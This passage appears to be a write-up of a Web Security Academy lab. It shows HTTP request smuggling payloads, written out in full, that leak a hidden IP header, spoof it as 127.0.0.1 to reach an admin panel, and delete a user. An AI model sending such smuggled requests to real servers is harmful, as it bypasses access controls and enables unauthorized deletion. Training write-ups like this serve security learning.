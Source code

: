     0

    POST / HTTP/1.1
    Host: 0a4b00a1041d0dc18085993400ec007d.web-security-academy.net
    Content-Length: 100
    Content-Type: application/x-www-form-urlencoded

    search=

We immediately got the response:

    0 search results for 'POST / HTTP/1.1
    X-xdGKVD-Ip: 222.252.28.231
    Host: 0a4b00a1041d0dc18085993400ec007d.web-secu'

This reveals the hidden header similar the `X-Forwarded-For` header. Now try using this header to access the admin interface by sending this request 2 times:

    POST / HTTP/1.1
    Host: 0a4b00a1041d0dc18085993400ec007d.web-security-academy.net
    Cookie: session=AG7CjZoOsfvnwBV0hv1wXLM7wTyuaAHv
    Content-Length: 189
    Content-Type: application/x-www-form-urlencoded
    Transfer-Encoding: chunked

    0

    GET /admin HTTP/1.1
    Host: 0a4b00a1041d0dc18085993400ec007d.web-security-academy.net
    X-xdGKVD-Ip: 222.252.28.231
    Content-Length: 118
    Content-Type: application/x-www-form-urlencoded

    x=

Notice a notification:

    Admin interface only available if logged in as an administrator, or if requested from 127.0.0.1

Change the `X-xdGKVD-Ip` header value to `127.0.0.1`. We now got access into the admin's interface, where we found the endpoint to delete user Carlos. Send this request 2 times to delete Carlos:

    POST / HTTP/1.1
    Host: 0a4b00a1041d0dc18085993400ec007d.web-security-academy.net
    Cookie: session=AG7CjZoOsfvnwBV0hv1wXLM7wTyuaAHv
    Content-Length: 212
    Content-Type: application/x-www-form-urlencoded
    Transfer-Encoding: chunked

    0

    GET /admin/delete?username=carlos HTTP/1.1
    Host: 0a4b00a1041d0dc18085993400ec007d.web-security-academy.net
    X-xdGKVD-Ip: 127.0.0.1
    Content-Length: 118
    Content-Type: application/x-www-form-urlencoded

    x=
